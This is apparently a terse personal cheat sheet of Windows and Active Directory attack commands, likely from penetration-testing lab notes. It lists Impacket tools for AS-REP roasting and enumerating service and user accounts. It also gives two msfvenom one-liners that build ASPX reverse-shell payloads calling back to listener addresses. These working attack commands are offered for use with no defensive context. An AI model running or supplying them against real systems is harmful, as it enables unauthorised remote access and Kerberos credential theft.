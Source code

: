 #windows 

`impacket-GetNPUsers ` to get the krb ticket for accounts where pre auth is disabled for AS-REP roasting

`impacket-GetUserSPNs` 

`impacket-GetADUsers` 


`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.166 LPORT=4242 -f aspx > reverse_shell.aspx`

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.219 LPORT=80 --platform Windows -a x64 -f aspx -o shell.aspx|